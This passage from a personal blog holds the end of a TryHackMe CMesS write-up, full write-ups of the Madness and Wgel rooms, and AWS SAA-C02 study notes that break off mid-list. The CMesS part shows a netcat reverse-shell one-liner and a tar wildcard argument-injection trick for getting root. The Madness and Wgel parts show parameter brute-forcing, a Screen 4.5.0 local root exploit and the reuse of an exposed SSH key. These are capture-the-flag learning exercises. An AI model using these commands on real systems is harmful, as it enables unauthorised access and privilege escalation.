<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">*/2 *   * * *   root    cd /home/xxxx/backup &amp;&amp; tar -zcf /tmp/xxxx_backup.tar.gz *</span><br></pre></td></tr></table></figure>
<p>Thanks to <a href="https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/" target="_blank" rel="noopener">hackingarticles</a> exploit was easy as:</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line">xxxx@cmess:~/backup$ cat shell.sh </span><br><span class="line">rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&gt;&amp;1|nc X.X.X.X 4242 &gt;/tmp/f</span><br><span class="line"></span><br><span class="line">xxxx@cmess:~/backup$ ls -lrt</span><br><span class="line">total 20</span><br><span class="line">-rwxr-x--- 1 xxxx xxxx 52 Nov  1 05:47 note</span><br><span class="line">-rw-rw-r-- 1 xxxx xxxx 80 Nov  1 06:03 shell.sh</span><br><span class="line">-rw-rw-r-- 1 xxxx xxxx  1 Nov  1 06:04 --checkpoint-action=exec=sh shell.sh</span><br><span class="line">-rw-rw-r-- 1 xxxx xxxx  1 Nov  1 06:04 --checkpoint=1</span><br></pre></td></tr></table></figure>
<p>And 🥁  Hourra ! </p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">listening on [any] 4242 ...</span><br><span class="line"># uid=0(root) gid=0(root) groups=0(root)</span><br><span class="line">cat /root/root.txt</span><br><span class="line">thm&#123;&lt;redactedflag&gt;&#125;</span><br></pre></td></tr></table></figure>
<p>This room was really cool and I hope you enjoyed it as well.<br>See you later ++</p>

      
    </div>
    <footer class="article-footer">
      <a data-url="http://91.208.181.214/2021/11/05/TryHackMe-CMesS-CTF-Write-Up/" data-id="clqobt6bm0018w9iystzsn6ny" class="article-share-link">Partager</a>
      
      
      
  <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/tryhackme/">tryhackme</a></li></ul>

    </footer>
  </div>
  
</article>


  
    <article id="post-TryHackMe-Madness-CTF-Write-Up" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2020/10/27/TryHackMe-Madness-CTF-Write-Up/" class="article-date">
  <time datetime="2020-10-27T13:42:42.000Z" itemprop="datePublished">2020-10-27</time>
</a>
    
  <div class="article-category">
    <a class="article-category-link" href="/categories/CTF/">CTF</a>►<a class="article-category-link" href="/categories/CTF/TryHackMe-Madness/">TryHackMe Madness</a>
  </div>

  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2020/10/27/TryHackMe-Madness-CTF-Write-Up/">TryHackMe Madness CTF Writeup</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <p>I’m having a lot of fun on THM so here is my <em>Madness</em> writeup !</p>
<p></p>
<h3 id="As-usual-let’s-start-with-a-basic-nmap-scan"><a href="#As-usual-let’s-start-with-a-basic-nmap-scan" class="headerlink" title="As usual let’s start with a basic nmap scan"></a>As usual let’s start with a basic nmap scan</h3><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line"># Nmap 7.91 scan initiated Thu Oct 21 21:42:42 2020 as: nmap -sC -sV -oN nmap.txt X.X.X.X</span><br><span class="line">Nmap scan report for X.X.X.X</span><br><span class="line">Host is up (0.024s latency).</span><br><span class="line">Not shown: 998 closed ports</span><br><span class="line">PORT   STATE SERVICE VERSION</span><br><span class="line">22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)</span><br><span class="line">| ssh-hostkey: </span><br><span class="line">|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)</span><br><span class="line">|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)</span><br><span class="line">|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)</span><br><span class="line">80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))</span><br><span class="line">|_http-server-header: Apache/2.4.18 (Ubuntu)</span><br><span class="line">|_http-title: Apache2 Ubuntu Default Page: It works</span><br><span class="line">Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</span><br></pre></td></tr></table></figure>
<p>Ok so let’s have a look on this Ubuntu Default Page. </p>
<h3 id="Check-Ubuntu-Default-Page-source-code"><a href="#Check-Ubuntu-Default-Page-source-code" class="headerlink" title="Check Ubuntu Default Page source code"></a>Check Ubuntu Default Page source code</h3><p></p>
<p></p>
<h3 id="Let’s-get-this-thm-jpg-picture"><a href="#Let’s-get-this-thm-jpg-picture" class="headerlink" title="Let’s get this thm.jpg picture"></a>Let’s get this thm.jpg picture</h3><p></p>
<p>Something strange isn’t it ? We try to get a jpg file but firefox consider it as a png.<br>So let’s grab this picture : </p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">wget http://10.X.X.X/thm.jpg</span><br></pre></td></tr></table></figure>
<p>I could not find anything with strings command on this file so I had to open it with hexeditor: </p>
<p> </p>
<p>Regarding this <a href="https://www.file-recovery.com/jpg-signature-format.htm" target="_blank" rel="noopener">article</a> about jpg signature format, I learnt that a jpg file has to start with a “FF D8 FF” signature so faire enough, someone change the jpg signature and we have to fix it in order to get this picture.</p>
<p> </p>
<p>And…. Tada \o/ </p>
<p></p>
<p>Now that I have a valid .jpg let’s play with steghide: </p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">steghide extract -sf thm.jpg</span><br><span class="line"></span><br><span class="line">Enter passphrase: </span><br><span class="line">steghide: could not extract any data with that passphrase!</span><br></pre></td></tr></table></figure>
<p>Faire enough the passphrase might be somewhere on the secret folder shown on the thm.jpg.</p>
<h3 id="Dive-into-the-secret-folder"><a href="#Dive-into-the-secret-folder" class="headerlink" title="Dive into the secret folder"></a>Dive into the secret folder</h3><p>On this page I’m asked to find a “secret” ! </p>
<p></p>
<p>So I decided to bruteforce this step like this : </p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"> ⚡ w00t@kali:~/ctf/tryhackme/madness<span class="comment"># for i in &#123;1..100&#125;; do curl -s http://$IP/XXXXXXXXX/\?secret\=$i | grep -B2 right ;done </span></span><br><span class="line"></span><br><span class="line">&lt;p&gt;Secret Entered: XX&lt;/p&gt;</span><br><span class="line">&lt;p&gt;Urgh, you got it right! But I won<span class="string">'t tell you who I am! XXXXXXXXX&lt;/p&gt;</span></span><br></pre></td></tr></table></figure>
<p>Ahah easy, we got the passphrase now :) </p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"> ⚡ w00t@kali :~/ctf/tryhackme/madness<span class="comment"># steghide extract -sf thm1.jpg</span></span><br><span class="line">Enter passphrase:</span><br><span class="line">wrote extracted data to <span class="string">"hidden.txt"</span>.</span><br><span class="line"> ⚡ rw00t@kali :~/ctf/tryhackme/madness <span class="comment"># cat hidden.txt</span></span><br><span class="line">Fine you found the password!</span><br><span class="line"></span><br><span class="line">Here<span class="string">'s a username</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">xxxxx</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">I didn'</span>t say I would make it easy <span class="keyword">for</span> you!</span><br></pre></td></tr></table></figure>
<p>So finally I have a potential ssh user but this name looks weird !</p>
<p><em>HINT: There’s something ROTten about this guys name!</em> </p>
<p>Ok I have my user name now \o/</p>
<p>Knowing that this challenge does not require SSH Brute forcing, I decided to take a look at the following image on the home page of the challenge.</p>
<p></p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"></span><br><span class="line"> ⚡ w00t@kali :~/ctf/tryhackme/madness<span class="comment">#  wget https://i.imgur.com/5iW7kC8.jpg</span></span><br><span class="line"> ⚡ w00t@kali :~/ctf/tryhackme/madness<span class="comment"># steghide extract -sf 5iW7kC8.jpg</span></span><br><span class="line">Enter passphrase: &lt;==================&gt; just press enter without any password ;)</span><br><span class="line">wrote extracted data to <span class="string">"password.txt"</span>.</span><br><span class="line"> ⚡ rw00t@kali :~/ctf/tryhackme/madness<span class="comment"># cat password.txt</span></span><br><span class="line">I didn<span class="string">'t think you'</span>d find me! Congratulations!</span><br><span class="line"></span><br><span class="line">Here take my password</span><br><span class="line"></span><br><span class="line">XXXXXXXXXX</span><br></pre></td></tr></table></figure>
<p>Oh yeah !!! </p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"> ⚡ w00t@kali:~/ctf/tryhackme/madness<span class="comment"># ssh SSH_USER@$IP</span></span><br><span class="line">&lt;ssh-user&gt;@ubuntu:~$ cat user.txt</span><br><span class="line">THM&#123;XXXXXXXXXXXXXXXXXXXXXXXXXXXX&#125;</span><br></pre></td></tr></table></figure>
<p>Let’s see if privilege escalation is possible via a my old good friend: find command</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br></pre></td><td class="code"><pre><span class="line">&lt;ssh-user&gt;@ubuntu:~$ sudo <span class="_">-l</span></span><br><span class="line">[sudo] password <span class="keyword">for</span> joker: </span><br><span class="line">Sorry, user joker may not run sudo on ubuntu.</span><br><span class="line">&lt;ssh-user&gt;@ubuntu:~$ </span><br><span class="line"></span><br><span class="line">&lt;ssh-user&gt;@ubuntu:~$ find / -type f -perm -u=s 2&gt;/dev/null</span><br><span class="line">/usr/lib/openssh/ssh-keysign</span><br><span class="line">/usr/lib/dbus-1.0/dbus-daemon-launch-helper</span><br><span class="line">/usr/lib/eject/dmcrypt-get-device</span><br><span class="line">/usr/bin/vmware-user-suid-wrapper</span><br><span class="line">/usr/bin/gpasswd</span><br><span class="line">/usr/bin/passwd</span><br><span class="line">/usr/bin/newgrp</span><br><span class="line">/usr/bin/chsh</span><br><span class="line">/usr/bin/chfn</span><br><span class="line">/usr/bin/sudo</span><br><span class="line">/bin/fusermount</span><br><span class="line">/bin/su</span><br><span class="line">/bin/ping6</span><br><span class="line">/bin/screen-4.5.0</span><br><span class="line">/bin/screen-4.5.0.old</span><br><span class="line">/bin/mount</span><br><span class="line">/bin/ping</span><br><span class="line">/bin/umount</span><br><span class="line">&lt;ssh-user&gt;@ubuntu:~$</span><br></pre></td></tr></table></figure>
<p>So screen was obviously a good way but nothing was exploitable with <a href="https://gtfobins.github.io/gtfobins/screen/#shell" target="_blank" rel="noopener">gtfobins</a> tips so I decided to browse exploitdb and I found this script: </p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">└─$ searchsploit GNU Screen 4.5.0                                                                                                130 ⨯</span><br><span class="line">----------------------------------------------------------------------------------------------------- ---------------------------------</span><br><span class="line"> Exploit Title                                                                                       |  Path</span><br><span class="line">----------------------------------------------------------------------------------------------------- ---------------------------------</span><br><span class="line">GNU Screen 4.5.0 - Local Privilege Escalation                                                        | linux/<span class="built_in">local</span>/41154.sh</span><br><span class="line">----------------------------------------------------------------------------------------------------- ---------------------------------</span><br></pre></td></tr></table></figure>
<p>And indeed I get root on the server \o/</p>
<p></p>

      
    </div>
    <footer class="article-footer">
      <a data-url="http://91.208.181.214/2020/10/27/TryHackMe-Madness-CTF-Write-Up/" data-id="clqobt6bt0019w9iyu8hzsu0s" class="article-share-link">Partager</a>
      
      
      
  <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/tryhackme/">tryhackme</a></li></ul>

    </footer>
  </div>
  
</article>


  
    <article id="post-TryHackMe-Wgel-CTF-Write-Up" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2020/09/27/TryHackMe-Wgel-CTF-Write-Up/" class="article-date">
  <time datetime="2020-09-27T21:57:42.000Z" itemprop="datePublished">2020-09-27</time>
</a>
    
  <div class="article-category">
    <a class="article-category-link" href="/categories/CTF/">CTF</a>►<a class="article-category-link" href="/categories/CTF/TryHackMe-Wgel/">TryHackMe Wgel</a>
  </div>

  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2020/09/27/TryHackMe-Wgel-CTF-Write-Up/">TryHackMe Wgel CTF Writeup</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <p>I’m having fun spending some time on TryHackMe. So here is a writeup about Wgel-CTF !</p>
<h3 id="Let’s-start-with-a-basic-Nmap-scan"><a href="#Let’s-start-with-a-basic-Nmap-scan" class="headerlink" title="Let’s start with a basic Nmap scan:"></a>Let’s start with a basic Nmap scan:</h3><p></p>
<h3 id="Fair-enough-we-can-notice-something-strange-below"><a href="#Fair-enough-we-can-notice-something-strange-below" class="headerlink" title="Fair enough we can notice something strange below:"></a>Fair enough we can notice something strange below:</h3><p></p>
<h3 id="So-let’s-dig-into-the-source-code"><a href="#So-let’s-dig-into-the-source-code" class="headerlink" title="So let’s dig into the source code:"></a>So let’s dig into the source code:</h3><p></p>
<h3 id="And-start-scanning-with-gobuster"><a href="#And-start-scanning-with-gobuster" class="headerlink" title="And start scanning with gobuster:"></a>And start scanning with gobuster:</h3><p></p>
<h3 id="Now-we-can-check-sitemap"><a href="#Now-we-can-check-sitemap" class="headerlink" title="Now we can check /sitemap"></a>Now we can check /sitemap</h3><p></p>
<h3 id="So-let’s-try-something-different"><a href="#So-let’s-try-something-different" class="headerlink" title="So let’s try something different:"></a>So let’s try something different:</h3><p></p>
<h3 id="Bingo-o"><a href="#Bingo-o" class="headerlink" title="Bingo \o/"></a>Bingo \o/</h3><p></p>
<h3 id="Connect-to-the-compromise-instance"><a href="#Connect-to-the-compromise-instance" class="headerlink" title="Connect to the compromise instance:"></a>Connect to the compromise instance:</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">wget http://10.10.5.44/sitemap/.ssh/id_rsa</span><br><span class="line">sudo chmod 400 id_rsa</span><br><span class="line">ssh -i id_rsa &lt;UserFoundEarlier&gt;@10.10.5.44</span><br></pre></td></tr></table></figure>
<h3 id="And-get-the-flag"><a href="#And-get-the-flag" class="headerlink" title="And get the flag !"></a>And get the flag !</h3><p></p>
<p>\o/ Hope you enjoyed ;-)</p>

      
    </div>
    <footer class="article-footer">
      <a data-url="http://91.208.181.214/2020/09/27/TryHackMe-Wgel-CTF-Write-Up/" data-id="clqobt6bx001bw9iyf5b0lw3u" class="article-share-link">Partager</a>
      
      
      
  <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/tryhackme/">tryhackme</a></li></ul>

    </footer>
  </div>
  
</article>


  
    <article id="post-AWS-SAAC-02" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2020/09/08/AWS-SAAC-02/" class="article-date">
  <time datetime="2020-09-08T19:21:42.000Z" itemprop="datePublished">2020-09-08</time>
</a>
    
  <div class="article-category">
    <a class="article-category-link" href="/categories/AWS/">AWS</a>►<a class="article-category-link" href="/categories/AWS/AWS-Certified-Solutions-Architect-Associate-SAA-C02/">AWS Certified Solutions Architect Associate SAA-C02</a>
  </div>

  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2020/09/08/AWS-SAAC-02/">AWS-SAAC-02</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <p>Yo this is my taking notes so far, work in progress</p>
<ol start="0">
<li>AWS - 10,000-Foot Overview</li>
<li>Identity and Access Management &amp; S3</li>
<li>EC2</li>
<li>Databases on AWS</li>
<li>Advanced IAM</li>
<li>Route 53</li>
<li>VPCs</li>
<li>HA Architecture</li>
<li>Applications</li>
<li>Security</li>
<li>Serverless</li>
<li>Good Luck with the Exam ;) </li>
</ol>
<h3 id="Lecture-AWS-10-000-Foot-Overview"><a href="#Lecture-AWS-10-000-Foot-Overview" class="headerlink" title="Lecture: AWS - 10,000-Foot Overview"></a>Lecture: AWS - 10,000-Foot Overview</h3><ul>
<li>A region is a physical location in the world which consists of two or more AZ.</li>
<li>An AZ is one or more discret data centers, each with redundant power, networking and connectivity, housed in separate facilities.</li>
<li>Edge Location are endpoints for AWS which are used for caching content. Typically this consists of CloudFront, Amazon’s Content Delivery Network (CDN)</li>
</ul>
<h1 id="Identity-and-Access-Management-amp-S3"><a href="#Identity-and-Access-Management-amp-S3" class="headerlink" title="Identity and Access Management &amp; S3"></a>Identity and Access Management &amp; S3</h1><ul>
<li>Buckets are universal name space and can’t share the same name.</li>
<li>Upload an objects to S3 receive a HTTP 200 code.</li>
<li>S3, S3-IA, S3-IA (One Zone), Glacier</li>
<li>Control access to buckets using either a bucket ACL or using Bucket Policies</li>
</ul>
<ul>
<li><a href="https://aws.amazon.com/s3/storage-classes/" target="_blank" rel="noopener">6 different Tiers</a>:</li>
</ul>
<p>S3 Standard<br>S3 Infrequent Access<br>S3 Intelligent - Tiering =&gt; exactly the same price except for the infrequent Acess there it becomes more advantageous<br>S3 One Zone - Infrequent Access<br>S3 Glacier<br>S3 Glacier Deep Archive</p>
<p>Bucket Policies =&gt; Bucket Level<br>Access Control Policy =&gt; Individual objects</p>
<p>S3 can be configured to create access logs.</p>
<p><strong>Encryption in TRANSIT is achieved by</strong>:</p>
<ul>
<li>SSL / TLS<br><strong>Encryption At REST (Server Side) is achieved by</strong></li>
<li>Service Side: (where AWS help you)<ul>
<li>SSE-S3 S3 Managed-Keys (ServerSideEncryption).</li>
<li>SSE-KMS AWS Key Management Service, Managed Keys.  </li>
<li>SSE-C Server Side Encryption with Customer provided key.</li>
</ul>
</li>
<li>Client Side:</li>
</ul>
<p><strong>Versioning</strong></p>
<ul>
<li>Stores all versions of an object (including all writes and even if you delete an object).</li>
<li>Great backup tool.</li>
<li>Once enabled, Versioning cannot be disabled, only suspended!</li>
<li>Integrate with lifecycle rules.</li>
<li>Versioning’s MFA delete capability (can be used to provide an additional layer of security).</li>
</ul>
<p><strong>LifeCycle Management with s3</strong></p>
<ul>
<li>Automates moving your objects between the different storage Tiers.</li>
<li>Can be used in conjunction with Versioning.</li>
<li>Can be applied to current versions and previous versions.</li>
</ul>
<p><strong>S3 Object Lock and Glacier Vault Lock</strong></p>
<ul>
<li>Use S3 ObjectLock to store objects using a write once read many (WORM) model.</li>
<li>Object Locks can be on Individual objects or applied across the bucket as a whole.</li>
<li>Object locks come in two modes:<ul>
<li>gouvernance mode : users can’t overwrite or delete an object version or alter its lock settings unless they have a special permissions.</li>
<li>compliance mode : a protected can’t be overwritten or deleted by any user, including the root user in your AWS account.</li>
</ul>
</li>
<li>S3 Glacier Vault Lock  :</li>
</ul>
<p><strong>S3 Performance</strong></p>
<ul>
<li>S3 Prefix : /folder1/folder.</li>
<li>S3 performance (3500 PUT) (5500GET) per second per prefix.</li>
<li>KMS Request Rates.</li>
<li><strong>S3 Multipart Uploads</strong>:<ul>
<li>Recommended for files over 100MB.</li>
<li>Required for files over 5GB.</li>
<li>Parallelize uploads (increase efficiency).</li>
</ul>
</li>
<li><strong>S3 Byte-Range-Fetches</strong>:<ul>
<li>Parallelize downloads by specifying byte ranges.</li>
<li>If there’s a failure in the download, it’s only for a specific byte range.</li>
</ul>
</li>
</ul>
<p><strong>S3 Select and Glacier Select</strong></p>
<ul>
<li>Is used to retrieve only a subset of data from an object by using simple SQL expressions.</li>
<li>Get data by rows or columns using simple SQL expressions.</li>
<li>Save money on data transfer and increase speed. (+400% !!) </li>
</ul>
<p><strong>AWS Organizations and Consolidated Billing</strong></p>
<ul>
<li>TODO once again…work in progress…</li>
<li>One bill per AWS account.</li>
<li>Very easy to track charges and allocate costs.</li>
<li>Volume pricing discount.</li>
</ul>
<p><strong>Sharing S3 Buckets Across Accounts</strong></p>
<ul>
<li>3 different ways to share S3 Buckets across accounts:<ul>
<li>Using bucket Policies &amp; IAM (applies across the entire bucket) Programmatic Access Only.</li>
<li>Using bucket ACL’s &amp; IAM (individual objects). Programmatic Access Only.</li>
<li>Cross-account IAM Roles. Programmatic AND Console access.</li>
</ul>
</li>
<li>TODO once again…work in progress…</li>
</ul>
<p><strong>Cross-Region Replication (CRR)</strong></p>
<ul>
<li>Versioning must be enabled on both the source and destination buckets.</li>
<li>Files in an existing bucket are not replicated automatically.</li>
<li>All subsequent updated files will be replicated automatically.</li>
<li>Delete markers are not replicated.</li>
<li>Deleting individual versions or delete markers will not be replicated.</li>
<li>Understand what Cross Region Replication is at a high level.</li>
</ul>
<p><em>Cross-region replication is an S3 feature where source and destination buckets are in different regions. Replication happens to objects uploaded/modified after the configuration is enabled. CRR allows for modification of the storage class or permissions on the destination object and can support objects encrypted with <a href="https://docs.aws.amazon.com/AmazonS3/latest/dev/UsingServerSideEncryption.html" target="_blank" rel="noopener">SSE-S3</a> by default or <a href="https://docs.aws.amazon.com/AmazonS3/latest/dev/UsingKMSEncryption.html" target="_blank" rel="noopener">SSE-KMS</a> with additional configuration.</em></p>
<p><strong>S3 Transfer Acceleration</strong></p>
<p><em>S3 Transfer Acceleration enables fast, easy, and secure transfers of files over long distances between your client and an S3 bucket using Amazon CloudFront’s globally distributed edge locations.</em></p>
<ul>
<li><a href="http://s3-accelerate-speedtest.s3-accelerate.amazonaws.com/en/accelerate-speed-comparsion.html" target="_blank" rel="noopener">Speedtest s3</a></li>
</ul>
<p><strong>AWS DataSync</strong></p>
<ul>
<li>Use to move large amounts of data from on-premise to AWS.</li>
<li>Used with NFS and SMB compatible systems.</li>
<li>Replication can be done hourly, daily or weekly.</li>
<li>Install the Datasync agent to start the replication.</li>
<li>Can be used to replicate EFS to EFS.</li>
</ul>
<p><strong>CloudFront</strong></p>
<ul>
<li>CDN</li>
<li>Edge locations - This is the location where content will be cached. This is separate to an AWS Region/AZ.</li>
<li>Origin - This is the origin of all the files that the CDN will distribute. This can be an S3 Bucket, an EC2 Instance, an ELB or Route53.</li>
<li>Distribution - This is the name given to the CDN which consists of a collection of Edge Locations.</li>
<li>Web Distribution - Typically used for Websites.</li>
<li>RTMP - Used for Media Streaming.</li>
<li>Edge Location are not just READ only - you can write to them too. (ie put an object on to them.)</li>
<li>Objects are cached for the life of the TTL.</li>
<li>You can clear cached  objects, but you will be charged.</li>
</ul>
<p><strong>Create a CloudFront Distribution</strong></p>
<ul>
<li>Edge Location - This is the location where content will be cached. This is separate to an AWS Region/AZ</li>
<li>Origin - This is the origin of all the files that the CDN will distribute. This can be an S3 Bucket, an EC2 Instance, an ELB or Route53.</li>
<li>Distribution - This is the name given to the CDN which consists of a collection of Edge Locations.</li>
<li>Web Distribution - Typically used for Websites.</li>
<li>RTMP - Used for Media Streaming.</li>
<li>Edge Location are not just READ only - you can write to them too. (ie put an object on to them.)</li>
<li>Objects are cached for the life of the TTL.</li>
<li>You can clear cached  objects, but you will be charged.</li>
</ul>
<p><strong>CloudFront Signed URLs and Cookies</strong></p>
<ul>
<li>Use Signed URLs/Cookies when you want to secure content so that only the people you authorize are able to access it.</li>
<li>A Signed URL is for individual files. 1 file = 1 URL</li>
<li>A Signed Cookie is for Multiple files. 1 cookie = mutliple files</li>
<li>If your ORIGIN is EC2, then use CloudFront.</li>
<li>If your ORIGIN is s3, and single file then use S3 Signed url instead of a cloudfront signed url.</li>
</ul>
<p><strong>Snowball</strong></p>
<ul>
<li>Snowball can import to S3</li>
<li>Snowball can export from S3</li>
</ul>
<p><strong>Snowball Lab</strong></p>
<ul>
<li>Video cool à revoir mais pas utile pour l’exam.</li>
</ul>
<p><strong>Storage Gateway</strong></p>
<ul>
<li>File gateway<ul>
<li>File Gateway - For flat files, stored directly on S3</li>
</ul>
</li>
<li>Volume Gateway<ul>
<li>Stored Volumes - Entire Dataset is stored on site and is asynchronously backed up to S3.</li>
<li>Cached Volumes - Entire Dataset is stored on S3 and the most frequently accessed data is cached on site.</li>
</ul>
</li>
<li>Gateway Virtual Tape library</li>
</ul>
<p>File / Volume / Tape</p>
<p><strong>Athena vs. Macie [SAA-C02]</strong></p>
<p><strong>S3 and IAM Summary</strong></p>
<ul>
<li>IAM consists of the following:<ul>
<li>Users / Group / Roles / Policies</li>
</ul>
</li>
<li>IAM is universal. It does not apply to regions at this time.</li>
<li>the “root account” is simply the account created when first setup your AWS account. It has complete Admin access.</li>
<li>New Users have NO permissions when first created.</li>
<li>New Users are assigned Access Key ID &amp; Secret Access Keys when created.</li>
<li>These are not the same as a password. You cannot use the Access key ID &amp; Secret Access Key to login in to the console.<br>You can use this to access AWS via the APIs and Command Line, however.</li>
<li>You only get to view these once. if you loose them you have to regenerate them. So, save them in a secure location.</li>
</ul>
<p>=&gt; Always setup Multifactor Authentication on your root account.<br>=&gt; You can create and customise your own password rotation policies.</p>
<ul>
<li>Remember that S3 is OBJECT-BASED: i.e allows you to upload files.</li>
<li>Files can be from 0 Bytes to 5TB.</li>
<li>There is unlimited storage.</li>
<li>Files are stored in Buckets.</li>
<li><p>S3 is a universal namespace. That is, names must be unique globally.</p>
</li>
<li><p>Not suitable to install an operating system on.</p>
</li>
<li>Successful upload will generate a HTTP 200 status code.</li>
<li>By default all newly created buckets are PRIVATE. you can setup access control to your buckets using:<ul>
<li>Bucket Policies (bucket wide)</li>
<li>ACL (down to individual files or object)</li>
</ul>
</li>
</ul>
<p>The Key Fundamentals of S3 Are:</p>
<p>=&gt; Key (this is simply the name of the object)<br>=&gt; Value (This is simply data and is made up of a sequence of bytes)<br>=&gt; Version ID (important for versioning)<br>=&gt; Metadata (Data about data you are storing)<br>=&gt; Subresources (ACL, TOrrent)</p>
<ul>
<li>Read after Write consistency for PUTS of new objects.</li>
<li>Eventual consistency for overwrite PUTS and DELETES (can take some time to propagate)</li>
</ul>
<p>S3 Standard<br>S3 - IA<br>S3 Intelligent Tiering<br>S3 One Zone - IA<br>S3 Glacier<br>S3 Glacier Deep archive</p>
<p>Encryption in transit is achieved by:</p>
<ul>
<li>SSL/TLS<br>Encryption at REST (server side) is achieved by:</li>
<li>S3 Managed Keys - SSE-S3</li>
<li>AWS Key Management Service, Managed Keys - SSE-KMS</li>
<li>Server Side Encryption With Customer Provided Keys - SSE-C<br>Client Side Encryption</li>
</ul>
<p>Some Best Practices with AWS Organizations:</p>
<ul>
<li>Always setup Multifactor Authentication on root account.</li>
<li>Always use a strong and complex password on root account.</li>
<li>Paying account should be used for billing purpose only. Do not deploy resources into the paying account.</li>
<li>Enable / Disable AWS services using Service Control Policies (SCP) either on OU or on individual account.</li>
</ul>
<p>3 different ways to share S2 Buckets accross accounts:</p>
<ul>
<li>Using Bucket Policies &amp; IAM (applies across the entire bucket). Programmatic Acces only.</li>
<li>Using bucket ACLs &amp; IAM (individual objects). Programmatic access Only</li>
<li>Cross-account IAM Roles. Programmatic AND Console access.</li>
</ul>
<p>Cross Region Replication</p>
<ul>
<li>Versioning must be enabled on both the source and destination buckets.</li>
<li>Files in an existing bucket are not replicated automatically</li>
<li>All subsequent updated files will be replicated automatically.</li>
<li>Delete markers are not replicated.</li>
<li>Deleting individual versions or delete markers will not be replicated.</li>
<li>Understand what Cross Region Replication is at high level.</li>
</ul>
<p>LyceCycle policies</p>
<ul>
<li>Automates moving your objects between the different storage tiers.</li>
<li>Can be used in conjunction with versioning.</li>
<li>Can be applied to current versions and previons versions.</li>
</ul>
<p>S3 Transfert Acceleration</p>
<p>CloudFront</p>
<ul>
<li>Edge locations - This is the location where content will be cached. This is separate to an AWS Region/AZ.</li>
